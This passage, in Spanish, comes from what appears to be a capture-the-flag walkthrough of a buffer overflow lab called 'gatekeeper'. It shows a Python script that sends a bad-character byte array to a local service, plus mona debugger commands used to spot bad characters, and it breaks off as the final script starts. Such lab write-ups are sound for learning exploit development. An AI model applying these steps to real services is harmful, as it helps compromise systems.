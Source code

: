 ```
 
Como resultado tenemos una serie de bytes dnde no encontraremos por ejemplo el x00 que pusimos arriba:
![20](https://user-images.githubusercontent.com/107126653/172850442-73c0754f-cce8-4f94-b9fb-596b1149c664.png)

Copiamos y pegamos en el python quedando tal que así:

```
import socket

ip = "127.0.0.1"
port = 31337


#badchars 
buf   = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf   += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf   += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf   += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf   += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf   += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf   += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf   += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buf + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
*modificamos el python lo guardamos, debug restart , run y ejecutamos el py. del CMD.

Ahora utilizamos el comando ```mona.mona('compare -f C:\\logs\\gatekeeper\\bytearray.bin -a ESP')``` que sirve para comparar con los badchars que hayamos introducido en el python.

![21](https://user-images.githubusercontent.com/107126653/172854356-676d17ae-3449-4707-b260-25c7db548d78.png)
 
 Como veis nos da un badchar que es el   0a asi que repetimos los pasos anteriores. ```mona.mona('bytearray -cpb "\\x00\x0a"')``` luego utilizamos el ```
mona.mona('compare -f C:\\logs\\gatekeeper\\bytearray.bin -a ESP')```
 
El gatekeeper.py lo dejaremos asi:
```
import socket
